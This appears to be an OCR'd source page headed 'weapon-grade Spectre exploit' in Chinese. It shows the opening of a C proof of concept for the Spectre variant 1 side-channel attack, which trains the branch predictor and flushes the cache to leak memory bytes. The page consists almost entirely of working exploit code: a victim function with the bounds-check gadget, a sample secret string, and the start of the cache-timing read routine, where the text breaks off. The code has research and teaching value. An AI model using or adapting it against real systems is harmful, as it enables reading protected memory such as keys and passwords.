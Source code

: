 # 武器级spectre漏洞利用

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#ifdef _MSC_VER
#include <intrin.h> /* for rdtscp and clflush */
#pragma optimize("gt", on)
#else
#include <x86intrin.h> /* for rdtscp and clflush */
#endif

/* sscanf_s only works in MSVC. sscanf should work with other compilers*/
#ifndef _MSC_VER
#define sscanf_s sscanf
#endif

/********************************************************************
Victim code.
********************************************************************/
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[160] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
uint8_t unused2[64];
uint8_t array2[256 * 512];

char* secret = "The Magic Words are Squeamish Ossifrage.";

uint8_t temp = 0; /* Used so compiler won't optimize out victim_function() */

void victim_function(size_t x)
{
	if (x < array1_size)
	{
		temp &= array2[array1[x] * 512];
	}
}

/********************************************************************
Analysis code
********************************************************************/
#define CACHE_HIT_THRESHOLD (80) /* assume cache hit if time <= threshold */

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2])
{
	static int results[256];
	int tries, i, j, k, mix_i;
	unsigned int junk = 0;
	size_t training_x, x;
	register uint64_t time1, time2;
	volatile uint8_t* addr;

	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--)
	{
		/* Flush array2[256*(0..255)] from cache */
		for (i = 0; i < 256; i++)
			_mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */

		/* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
```